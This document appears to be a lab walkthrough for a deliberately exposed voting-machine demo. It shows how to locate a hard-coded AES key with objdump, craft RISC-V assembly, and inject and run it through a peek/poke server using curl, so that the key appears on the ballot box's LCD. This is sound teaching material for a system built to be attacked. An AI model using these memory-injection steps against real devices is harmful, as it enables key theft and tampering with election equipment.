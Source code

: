 This is the simplest example of how to use the peek-poke server. This exploit walks through how to write the ballot box LCD display value to be the location of the AES key.

## Examine the SBB source code & use objdump

Looking at the `fetch_keys` function in the [SBB source code](../../source/crypto/crypto.c#L39), you see the comment:

```
   // we simply return addresses of the hard-coded keys that were linked
    // in at compile time, with the mock key returned in any situation
    // where one of the 3 "real" keys is not asked for
```

Let's go find that hard-coded location. In this example, you'll just look for the mock key. 

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "mock_key"
c0082178 l     O .rodata	00000020 mock_key
```

The first field, `c0082178` is the mock_key's memory location. (If this address is different in the output on your system, the source code has probably been updated since this document was written and you'll have to use your value to follow along with the rest of this example.)

For this example, let's get the mock_key to be displayed on the SBB's LCD display. The LCD display currently reads "Welcome, Voter!", so let's first find that string [in the source code](../../source/sbb/sbb_strings.c#L10):

```
const char *welcome_text = "Welcome, Voter!";
```

Great, now let's find the location of the `welcome_text` symbol in the ELF file:

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "welcome_text"
c0088258 g     O .sdata	00000004 welcome_text
```

You can see the welcome_text is at `0xc0088258`. 

Now let's write the address of mock_key to the welcome_text location. 

## Create RISC-V 32 bit assembly

You need the RISC-V 32 bit assembly that corresponds to writing the address of the mock_key to the welcome_text location; one tool that provides a helpful interface for doing this is using the online [godbolt compiler explorer.](https://godbolt.org/z/0vfCJw) There may be situations where it will be better to write a small amount of assembly by hand, but here it's easiest to use the compiler.

Let's write a C function that does what you want:

```
void exploit() {
    // get a pointer to the welcome_text
    int *x = (int *)0xc0088258;
    // write the address of the mock_key
    *x = 0xc0082178;
}
```

You can see the generated RISC-V 32 bit assembly in the pane to the right, and pick out the parts that aren't part of the function call setup / tear-down. Be careful as the highlighting on godbolt doesn't always correspond directly to the source code! 

The assembly you want is everything between the stack pointer (`sp`) manipulations:

```
lui a0, 786568
addi a0, a0, 600
sw a0, -12(s0)
lw a0, -12(s0)
lui a1, 786562
addi a1, a1, 376
sw a1, 0(a0)
```

Next, let's save this into a file called `payload.asm`, and get the binary (hex) representation of these instructions. You can then "load" this binary by writing it to the `malware()` function using the peek/poke server, and execute it by running `malware()`. 

## Craft our binary

To craft your desired binary, you need to invoke the RISC-V 32 bit assembler, and grab only the parts of the resulting ELF file that correspond to those instructions. The provided [`run_exploit.sh` script](../run_exploit.sh) will do this for you. 

Let's look at the contents of that script, and then below look at how to use it.

_You don't need to run the code in this section to follow along; it is easier to run the provided `run_exploit.sh` script, as is explained in the next section. Knowing these steps will be useful for other exploits._

The script first calls the assembler:
```
prefix=riscv32-unknown-elf-
tempDir=$(mktemp -d)
...
${prefix}as -o "$tempDir/exploit.elf" "$1"
```

to create an assembled ELF file, and then grab only the `.text` section to get the binary corresponding to your function body while avoiding all the other ELF formatting:

```
${prefix}objcopy -O binary --only-section=.text "$tempDir/exploit.elf" "$tempDir/payload.bin"
```

To `poke` the memory into the `malware()` function, you need to specify how many bytes to write; you can find the size of our binary using `du`:

```
size=$(du -b "$tempDir/payload.bin" | cut -f 1)
```

Finally, you need to call the peek/poke server twice: first to poke our binary into the body of the malware function, and again to run the malware function:

```
curl -v --data-binary @"$tempDir/payload.bin" --request PATCH http://$SBB_IP/poke/$malStartAddr/$size
curl -v http://$SBB_IP/run/0
```

## ./run_exploit.sh

To run `run_exploit.sh` you first need to set two environment variables.

The first is the IP address of the peek/poke server, which you can find published in the Voting Village.

The other is the address to which you want to write your binary payload in the malware function; one easy way to find where to write to is to look at the binary with `riscv32-unknown-elf-objdump -d`.

You should be able to find the `malware` function, and see the address at which the `nop`s begin.

```
c001d170 <malware>:
c001d170:       fe010113                addi    sp,sp,-32
c001d174:       00812e23                sw      s0,28(sp)
c001d178:       02010413                addi    s0,sp,32
c001d17c:       fea42623                sw      a0,-20(s0)
c001d180:       feb42423                sw      a1,-24(s0)
c001d184:       00000013                nop
c001d188:       00000013                nop
c001d18c:       00000013                nop
...
```

Set the values you've found as `SBB_IP` and `malware_start_addr`:

```
# don't copy this code directly, find them for your environment as described above
export SBB_IP=192.168.55.247
export malware_start_addr='0xc001d184'
```

Once you've set those two environment variables, you can run the script:

```
./run_exploit.sh payload.asm
```

This will create the binary corresponding to our assembly instructions, copy that binary into the `malware()` function, and execute it.

## Recap

This example demonstrated how to find the (static) location of the AES key, and expose it by writing to a location which was displayed on the LCD display. To do this you:

* found the interesting pieces of data by inspecting the source code
* found their memory locations by searching the symbol table with `objdump`
* wrote a C function which rewrote data in the SBB code
* compiled it using a RISC-V 32 bit compiler
* ran `./run_exploit.sh` with our assembly as a payload. This:
    * created binary corresponding to the interesting part of the assembly using an assembler & objcopy
    * wrote our crafted binary to the malware function using the poke server
    * executed using malware function, which overwrote the memory using our binary code, by requesting that the server `run` the malware function

